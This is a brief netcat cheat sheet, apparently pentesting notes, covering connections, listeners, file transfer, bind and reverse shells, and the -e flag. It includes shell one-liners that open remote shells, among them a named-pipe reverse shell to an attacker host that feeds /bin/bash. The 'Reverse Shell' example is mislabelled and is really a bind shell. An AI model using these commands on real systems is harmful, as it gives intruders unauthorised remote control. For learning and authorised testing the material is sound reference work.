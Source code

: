 # Useful Netcat


Interact with application:
```bash
nc -nv $IP $PORT
```
Listener:
```bash
nc -nlvp $PORT
```
File transfer (client):
```bash
nc -nlvp $PORT > $FILE
```
File transfer (server):
```bash
nc -nv $IP $PORT < $FILE_TO_SEND
```

Bind shells
```bash
nc -nlvp $PORT -e cmd.exe # Listener
nc -nv $IP $PORT
```

Reverse Shell
```bash
nc -nv $IP $PORT
nc -nlvp $PORT -e /bin/bash  # Listener
```

NC disabled -e oldschool [Ed Skoudis](https://twitter.com/edskoudis)
```bash
mknod backpipe p; nc $attacker_ip $port 0<backpipe | /bin/bash 1>backpipe
```


## -e
Kali linux has nc compiled with the flag: `-DGAPING_SECURITY_HOLE` with enabled -e option **MOST** modern Linux/BSD system **DON'T SUPPORT** -e. This option can redirect the input, output, and error messages of an executable to a TCP/UDP port rather than the default console.

## Flags
-n	skip DNS name resolution
-v	verbosity
-l	listener
-p	port